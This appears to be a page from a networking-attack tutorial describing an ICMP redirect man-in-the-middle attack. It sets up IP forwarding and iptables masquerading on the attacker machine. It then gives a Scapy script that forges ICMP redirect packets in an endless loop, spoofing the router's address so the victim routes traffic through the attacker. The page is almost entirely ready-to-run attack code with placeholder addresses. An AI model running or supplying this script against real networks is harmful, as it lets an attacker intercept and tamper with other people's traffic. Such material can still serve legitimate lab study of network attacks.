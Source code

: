 ### Configure your Machine to Perform IP Masquerading
Issuing the following commands will let you configure your machine as a router NATting your victim address and hiding it from the router:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o eth1 -j MASQUERADE
```

### Script
```python
# Creating and sending ICMP redirect packets
originalRouterIP='<The router IP address>'
attackerIP='<Attacker IP Address>'
victimIP='<The Victim IP Address>'
serverIP='<The Web Server IP Address>'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
# Press <enter>
```